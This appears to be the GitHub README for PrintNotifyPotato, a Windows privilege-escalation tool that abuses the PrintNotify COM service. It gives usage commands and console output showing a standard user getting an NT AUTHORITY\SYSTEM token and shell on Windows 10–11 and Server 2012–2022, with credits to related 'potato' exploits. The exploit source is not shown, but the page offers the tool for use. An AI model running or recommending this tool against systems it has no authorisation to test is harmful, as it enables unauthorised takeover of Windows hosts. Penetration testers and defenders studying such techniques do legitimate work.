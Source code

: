 # PrintNotifyPotato
PrintNotifyPotato

Another potato, using PrintNotify COM service for lifting rights


For Windows 10 - 11 Windows Server 2012 - 2022


![image](https://user-images.githubusercontent.com/43266206/205248647-95a5e088-75a7-414c-9560-da4a45c8bc71.png)


# Usege

```

C:\Windows\Temp >PrintNotifyPotato.exe 

aaaa    aaa                           aaa         
 aaaa    aaa                           aaa         
 aaaa    aaa                           aaa         
 aaaa    aaa                           aaa         
 aaaa    aaa                           aaa         
 aaaa    aaa                           aaa         
 aaaa    aaa    aaaaaaa     aaaaaaa    aaa   aaaa  
 aaaaaaaaaaa   aaaaaaaaa   aaaaaaaaa   aaa  aaaa   
 aaaaaaaaaaa  aaaa   aaa  aaaa   aaaa  aaa aaaa    
 aaaa    aaa         aaa  aaaa   aaaa  aaaaaaa     
 aaaa    aaa     aaaaaaa  aaa          aaaaaaa     
 aaaa    aaa   aaaaaaaaa  aaa          aaaaaaaa    
 aaaa    aaa  aaaa   aaa  aaa     aaa  aaaa aaa    
 aaaa    aaa  aaa   aaaa  aaaa   aaaa  aaa  aaaa   
 aaaa    aaa  aaa  aaaaa   aaaa  aaaa  aaa   aaaa  
 aaaa    aaa  aaaaaaaaaa    aaaaaaaa   aaa    aaa  
 aaaa    aaa    aaaa aaaa    aaaaa     aaa    aaaa 

Github: https://github.com/BeichenDream/PrintNotifyPotato

Example:
            PrintNotifyPotato.exe whoami
            PrintNotifyPotato.exe cmd interactive
C:\Windows\Temp >PrintNotifyPotato.exe  whoami

[*] Create PrintNotify Success!
[*] Create FakeIUnknown Success!
[*] CreatePointerMoniker Success!
[*] Trigger......
[*] Got Token: 0x3d4
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] DuplicateTokenEx Success! PrimaryToken: 0x1016
[*] process start with pid 7272
nt authority\system
C:\Windows\Temp >
```


# Reference/Thanks

http://code.google.com/p/google-security-research/issues/detail?id=128 

zcgonvh

https://github.com/antonioCoco/JuicyPotatoNG

https://decoder.cloud/2022/09/21/giving-juicypotato-a-second-chance-juicypotatong/
